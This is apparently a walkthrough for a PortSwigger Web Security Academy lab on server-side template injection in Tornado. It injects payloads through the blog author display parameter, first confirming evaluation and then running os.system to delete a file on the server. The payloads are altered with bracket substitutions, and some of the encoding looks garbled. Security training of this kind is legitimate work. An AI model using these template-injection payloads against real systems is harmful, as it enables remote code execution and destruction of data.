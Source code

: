 ```bash
https://0a3d00c1040fc12dc0c79efe00d00074.web-security-academy.net/post?postId=2

Refresh the page
Acknowledge that the username is now:

Peter Wiener49]]

Go to: Repeater
Change

blog-post-author-display=user.name]][[7*7]]&csrf=h1GSO6ntbuhd4CD2HaoZw1usIFupFuXs

To

blog-post-author-display=user.name]][[who+am+i]]&csrf=h1GSO6ntbuhd4CD2HaoZw1usIFupFuXs

Go to:

https://0a3d00c1040fc12dc0c79efe00d00074.web-security-academy.net/post?postId=2

Refresh the page
Response:

Internal Server Error
No handlers could be found for logger "tornado.application" Traceback (most recent call last): File "<string>", line 15, in <module> File "/usr/local/lib/python2.7/dist-packages/tornado/template.py", line 317, in __init__ "exec", dont_inherit=True) File "<string>.generated.py", line 9 _tt_tmp = who am i # <string>:1 ^ SyntaxError: invalid syntax

Rerence:

https://www.tornadoweb.org/en/stable/template.html

Change:

blog-post-author-display=user.name]][[who+am+i]]&csrf=h1GSO6ntbuhd4CD2HaoZw1usIFupFuXs

To

**DISCLAIMER**
Changing curly-bracket notations to normal bracket notations to comply with Jekyll.

blog-post-author-display=user.name]][[%25+import+os+%2][[os.system('rm+/home/carlos/morale.txt')&csrf=h1GSO6ntbuhd4CD2HaoZw1usIFupFuXs

// or // decoded

blog-post-author-display=user.name]][% import os %][[os.system('rm /home/carlos/morale.txt')&csrf=h1GSO6ntbuhd4CD2HaoZw1usIFupFuXs

Go to:

https://0a3d00c1040fc12dc0c79efe00d00074.web-security-academy.net/post?postId=2

Refresh the page

```
